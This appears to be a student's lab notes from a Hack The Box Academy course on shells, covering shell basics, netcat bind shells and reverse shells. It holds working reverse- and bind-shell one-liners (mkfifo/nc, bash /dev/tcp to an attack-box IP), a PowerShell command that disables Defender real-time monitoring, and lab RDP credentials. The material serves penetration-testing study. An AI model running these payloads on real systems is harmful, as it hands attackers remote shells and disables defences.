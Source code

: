 what is shell?
	is a program that provides computer user with an interface to input instruction into the system and view text output (Bash, Zsh, cmd, and PowerShell, 
	a shell is often the result of exploiting a vulnerability or bypassing security measures to gain interactive access to a host

to interact with it, we must use an application known as a `terminal emulator`.
The terminal emulator we interact with on targets will essentially be dependant on what exists on the system natively.
`$` sign. This $ sign is used in Bash, Ksh, POSIX, and many other shell languages to mark the start of the `shell prompt`

#### Shell Validation
```shell-session
AhmaDb0x@htb[/htb]$ ps

    PID TTY          TIME CMD
   4232 pts/1    00:00:00 bash
  11435 pts/1    00:00:00 ps
```

```shell-session
AhmaDb0x@htb[/htb]$ env

SHELL=/bin/bash
```

# Bind Shells

## What Is It?
With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

```shell-session
Target@server:~$ nc -lvnp 7777
```

```shell-session
AhmaDb0x@htb[/htb]$ nc -nv 10.129.41.200 7777
```

## Establishing a Basic Bind Shell with Netcat

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.190.142 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually.

```shell-session
AhmaDb0x@htb[/htb]$ nc -nv 10.129.41.200 7777
```

10.129.190.142


rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvnp 7777 > /tmp/f

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 7777 > /tmp/f`

`bash -i >& /dev/tcp/10.129.190.142/7777 0>&1`


# Reverse Shells

https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#summary

```shell-session
AhmaDb0x@htb[/htb]$ sudo nc -lvnp 443
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.81 9999 >/tmp/f
```

#### Disable AV
```powershell-session
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

```
 xfreerdp /v:10.129.28.204 /u:htb-student /p:HTB_@cademy_stdnt!
```

htb-student and password HTB_@cademy_stdnt!
10.129.28.204